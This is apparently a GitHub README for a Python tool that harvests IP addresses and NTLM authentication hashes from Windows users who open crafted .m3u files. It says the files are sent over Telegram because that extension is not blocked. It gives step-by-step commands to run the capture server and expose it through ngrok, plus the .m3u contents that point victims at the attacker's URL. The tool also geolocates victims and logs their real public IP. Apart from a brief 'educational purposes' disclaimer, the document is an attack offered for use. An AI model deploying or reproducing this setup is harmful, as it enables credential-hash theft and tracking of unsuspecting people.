

# IP and NTLM Hash Detection Tool using M3U file

A Python-based tool designed to capture IP addresses and NTLM authentication hashes from remote Windows clients using Telegram (lack of blocking the file extension .m3u), primarily for security testing and educational purposes.

Credits to: https://x.com/0x6rss/status/1906070098764538201/photo/1 and https://www.facebook.com/share/p/16Q8pGYLqJ/

As of 31/03/2025 - this simple bug it's NOT fixed yet.

## Demonstration



For a detailed video walkthrough of the tool in action, see [ipltlm.mp4](ipltlm.mp4)

## Overview

This tool sets up an HTTP server that:
1. Logs client IP addresses and connection details
2. Attempts to capture NTLM authentication hashes when clients connect
3. Provides a client-side JavaScript mechanism to detect and report public IP addresses
4. Generates .m3u files that can trigger connections when opened in media players

## Features

- **IP Address Logging**: Records client IP addresses, ports, and connection details
- **NTLM Hash Capture**: Requests NTLM authentication and logs any hash responses
- **Public IP Detection**: Uses client-side JavaScript to detect and report real public IP addresses
- **Geolocation**: Identifies the geographic location of captured IP addresses
- **Network Diagnostics**: Performs connectivity tests to ensure the server is publicly accessible
- **Alternative Port Support**: Can automatically try alternative ports if the primary port is unavailable

## Prerequisites

- Python 3.6 or higher
- Internet connectivity
- Open port access (firewall/router configuration may be required)

## Installation

1. Clone the repository or download the script
2. Install the required dependencies:

```bash
pip install -r requirements.txt
```

## Usage

### Basic Usage

Run the script with default settings:

```bash
python ipntlmhash.py
```

This will start the server on port 8001 and automatically detect your IP address.

### Advanced Usage

```bash
# Specify a custom IP address and port
python ipntlmhash.py --ip 192.168.1.100 --port 8080

# Try alternative ports if the main port fails
python ipntlmhash.py --alt-ports
```

### Command-line Options

- `--ip`: Specify the server IP address (default: auto-detect)
- `--port`: Specify the port to listen on (default: 8001)
- `--alt-ports`: Automatically try alternative ports (80, 443, 8080, 8000) if the primary port fails

## Using with Ngrok (Recommended)

For easier public accessibility, especially if you're behind NAT or a firewall, use ngrok:

1. Download and install ngrok from [https://ngrok.com/download](https://ngrok.com/download)
2. Start the script normally:
   ```bash
   python ipntlmhash.py
   ```
3. In a separate terminal, start ngrok pointing to your local server port:
   ```bash
   ngrok http 8001
   ```
4. Ngrok will provide a public URL (like `https://a1b2c3d4.ngrok.io`)
5. Manually edit the generated .m3u files to use this ngrok URL instead of your IP:
   ```
   # Edit ntlmv2_hash.m3u to contain:
   https://a1b2c3d4.ngrok.io/somefile.mp3
   
   # Edit ip_detect.m3u to contain:
   https://a1b2c3d4.ngrok.io/ip
   ```

## How It Works

1. The server listens for incoming connections on the specified port
2. When a client connects, the server logs the IP address and port
3. The server attempts to initiate NTLM authentication with the client
4. If the client responds with NTLM authentication data, the server logs it
5. The `/ip` endpoint serves a page with JavaScript that detects the client's public IP
6. The client can report back its public IP using the JavaScript-based detection

## Output Files

- `ip_log.txt`: Contains logs of all client connections and reported public IPs
- `ntlm_log.txt`: Contains captured NTLM authentication data
- `ipltlmhash.m3u`: M3U file that tries to capture both IP and NTLM hash when opened
- `ip_detect.m3u`: M3U file that directs clients to the IP detection page

## Limitations

1. NTLM hash capture depends on the client's system attempting NTLM authentication
2. Server accessibility requires proper network/firewall configuration
3. The tool doesn't fully process the NTLM handshake; it only captures the hash data
4. Public IP detection requires JavaScript to be enabled in the client's browser

## Security Note

This tool is designed for educational purposes and security testing with proper authorization. Unauthorized use of this tool against systems you don't own or have permission to test may violate laws and regulations.

## Troubleshooting

If you're having trouble with connectivity:

1. Ensure your firewall allows incoming connections on the server port
2. If behind a router, set up port forwarding to your machine
3. Use the ngrok method described above for reliable public access
4. Check the "Network Configuration Check" and "Server Accessibility Test" sections in the tool output

## License

[MIT License](LICENSE) 
